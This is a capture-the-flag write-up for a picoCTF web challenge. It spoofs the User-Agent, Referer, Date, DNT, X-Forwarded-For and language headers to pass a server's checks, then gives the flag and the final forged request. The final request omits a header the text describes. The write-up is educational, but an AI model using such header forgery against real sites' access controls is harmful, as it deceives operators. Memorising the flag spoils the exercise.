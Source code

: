 # My Solution


We can change the user agent to picobrowser:
By changing the user agent to picobwrowser we get a different error message 

I don&#39;t trust users visiting from another site.

Then we use the Referer option so that the server see that the request was doneby the site itself
```
Referer: https://mercury.picoctf.net:52362
```
and we get `Sorry, this site only worked in 2018`

We can bypass this by adding the date header
```
Date: Wed, 21 Oct 2018 07:28:00 GMT
```
and we get `I don&#39;t trust users who can be tracked`

We bypass it by adding the DNT header (Do not track)
```
DNT: 1
```
and we get `This website is only for people from Sweden`

We may use a vpn located in Sweden (maybe) or we can simply take a swedish ip and add the header:
```
X-Forwarded-For: 11.11.111.111  (this is a fittive ip)
```

The flag: picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_0c0db339}u


Final request:
```
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
User-Agent: picobrowser
Referer: https://mercury.picoctf.net:52362
Date: Wed, 21 Oct 2018 07:28:00 GMT
DNT: 1
Accept-Language: sv-SWE
Content-Language: sv-SWE
Content-Length: 2
```
